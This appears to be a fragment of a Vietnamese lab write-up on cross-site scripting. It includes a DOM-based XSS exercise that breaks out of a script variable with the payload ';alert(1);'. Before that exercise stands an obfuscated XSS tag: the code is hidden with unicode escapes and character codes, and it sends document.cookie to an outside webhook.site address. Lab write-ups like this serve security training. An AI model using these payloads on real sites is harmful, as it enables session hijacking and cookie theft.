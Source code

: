 `<xss onfocus=\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074.\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e=String.fromCharCode(104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,56,100,55,102,54,56,55,102,45,98,57,51,49,45,52,98,99,52,45,98,54,49,55,45,57,52,54,48,48,53,52,53,50,98,57,56,63,100,97,116,97,61).concat(\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074.\u0063\u006f\u006f\u006b\u0069\u0065) autofocus tabindex=1>`

## XSS-06: **XSS DOM Based - Introduction**

![image.png](Images/image%2018.png)

Cho thử 1 số và xem source

![image.png](Images/image%2019.png)

Thử thoát ra khỏi biến number và chèn alert vào, ở đây đã có sẵn tag `<script>` nên bất cứ thứ gì ở trong đều được thực thi js.
Payload: `';alert(1);'`

![image.png](Images/image%2020.png)
